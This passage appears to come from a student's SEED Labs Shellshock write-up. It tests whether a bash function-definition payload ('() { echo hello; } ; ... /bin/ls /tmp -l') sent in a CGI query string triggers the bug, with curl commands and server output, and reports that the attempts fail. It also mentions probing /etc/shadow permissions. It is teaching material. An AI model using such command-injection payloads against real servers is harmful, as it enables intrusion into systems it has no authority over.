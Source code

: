 No. As observed in Task 3.B, the user we control, as an attacker, is the `www-data`. By listing the permissions of the `/etc/shadow` file, we see that the "others" section in the permissions has no read access. As the file is root-owned we get a "Permission denied" error.

**Question 2: : HTTP GET requests typically attach data in the URL, after the "?" mark. This could be another approach that we can use to launch the attack. In the following example, we attach some data in the URL, and we found that the data are used to set the following environment variable:**

```bash
$ curl "http://www.seedlab-shellshock.com/cgi-bin/getenv.cgi?AAAAA"
...
QUERY_STRING=AAAAA
...
```

**Can we use this method to launch the Shellshock attack? Please conduct your experiment and derive your conclusions based on your experiment results.**

No. The following attempts to make the attack work using a query parameter were unsuccessful because the shellshock vulnerability looks for the function definition pattern which is given by the characters "() {". But passing these characters in our payload, because a space is included, caused the attack to fail. Not even encoding the special characters made the attack successful, which makes sense for the reasons explained above.

The query parameter we wanted to send was the following: 

```bash
() { echo hello; } ; echo Content_type: text/plain; echo; /bin/ls /tmp -l
```

The first command tries the attack using the encoded version of the parameter and the second one the plain-text version. But were not successful, as mentioned.

```bash
[03/12/22]seed@VM:~/.../ssi$ curl http://www.seedlab-shellshock.com/cgi-bin/getenv.cgi?%28%29%20%7B%20echo%20hello%3B%20%7D%20%3B%20echo%20Content_type%3A%20text%2Fplain%3B%20echo%3B%20%2Fbin%2Fls%20%2Ftmp%20-l
****** Environment Variables ******
HTTP_HOST=www.seedlab-shellshock.com
HTTP_USER_AGENT=curl/7.68.0
HTTP_ACCEPT=*/*
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
SERVER_SIGNATURE=<address>Apache/2.4.41 (Ubuntu) Server at www.seedlab-shellshock.com Port 80</address>
SERVER_SOFTWARE=Apache/2.4.41 (Ubuntu)
SERVER_NAME=www.seedlab-shellshock.com
SERVER_ADDR=10.9.0.80
SERVER_PORT=80
REMOTE_ADDR=10.9.0.1
DOCUMENT_ROOT=/var/www/html
REQUEST_SCHEME=http
CONTEXT_PREFIX=/cgi-bin/
CONTEXT_DOCUMENT_ROOT=/usr/lib/cgi-bin/
SERVER_ADMIN=webmaster@localhost
SCRIPT_FILENAME=/usr/lib/cgi-bin/getenv.cgi
REMOTE_PORT=51420
GATEWAY_INTERFACE=CGI/1.1
SERVER_PROTOCOL=HTTP/1.1
REQUEST_METHOD=GET
QUERY_STRING=%28%29%20%7B%20echo%20hello%3B%20%7D%20%3B%20echo%20Content_type%3A%20text%2Fplain%3B%20echo%3B%20%2Fbin%2Fls%20%2Ftmp%20-l
REQUEST_URI=/cgi-bin/getenv.cgi?%28%29%20%7B%20echo%20hello%3B%20%7D%20%3B%20echo%20Content_type%3A%20text%2Fplain%3B%20echo%3B%20%2Fbin%2Fls%20%2Ftmp%20-l
SCRIPT_NAME=/cgi-bin/getenv.cgi
[03/12/22]seed@VM:~/.../ssi$ curl "http://www.seedlab-shellshock.com/cgi-bin/getenv.cgi?() { echo hello; } ; echo Content_type: text/plain; echo; /bin/ls /tmp -l"
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
```
